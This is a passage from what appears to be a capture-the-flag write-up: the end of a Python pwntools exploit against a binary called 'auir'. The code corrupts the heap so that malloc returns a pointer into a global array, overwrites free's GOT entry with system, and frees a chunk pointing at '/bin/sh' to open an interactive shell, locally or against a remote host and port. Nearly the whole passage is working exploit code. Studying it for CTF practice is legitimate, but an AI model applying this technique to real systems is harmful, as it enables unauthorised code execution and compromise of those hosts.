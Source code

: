 ```python
    free(3)

    # make malloc return 0x6052ed so we can overwrite the
    # entries in the global pointer array
    payload = p64(bss)
    alloc(0x68, payload)
    alloc(0x68, "F")
    alloc(0x68, "G")
    # overwrite the 1st entry with free's got entry
    # and the 2nd entry with binsh's address
    alloc(0x68,"H"*0x13 + p64(free_got) + p64(binsh))

    # free => system
    edit(0, 8, p64(system))

    # call system with the 2nd entry as argument, which is binsh
    free(1)

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: {} HOST PORT".format(sys.argv[0]))
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        pwn()
    else:
        r = process('./auir')
        pause()
        pwn()
```

~ Peace!

